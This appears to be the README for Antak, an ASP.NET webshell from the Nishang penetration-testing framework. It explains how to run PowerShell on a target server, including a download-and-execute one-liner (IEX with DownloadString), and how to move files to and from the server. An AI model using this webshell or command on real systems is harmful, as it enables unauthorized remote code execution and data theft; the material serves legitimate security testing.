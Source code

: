 Antak is a webshell written in ASP.Net which utilizes PowerShell.
Antak is a part of Nishang and updates can be found here: https://github.com/samratashok/nishang

Use this shell as a normal PowerShell console. Each command is executed in a new process; keep this in mind
while using commands (like changing current directory or running session aware scripts). 

Executing PowerShell scripts on the target:

1. Paste the script in command textbox and click 'Encode and Execute." A reasonably large script could be executed using this.

2. Use PowerShell one-liner (example below) to download & execute in the command box.

        IEX ((New-Object Net.WebClient).DownloadString('URL to script')); [Arguments]

3. Upload the script to the target and execute it.

4. Make the script a semi-colon separated one-liner.

Files can be uploaded and downloaded using the respective buttons:

Uploading a file:
To upload a file, you must mention the actual path on the server (with write permissions) in the command text box. 
(OS temporary directories like C:\Windows\Temp may be writable.)
Then, use the browse and upload buttons to upload file to that path.

Downloading a file:
To download a file, enter the actual path on the server in the command text box.
Then click on Download button.


A detailed blog post on Antak can be found here:
http://www.labofapenetrationtester.com/2014/06/introducing-antak.html
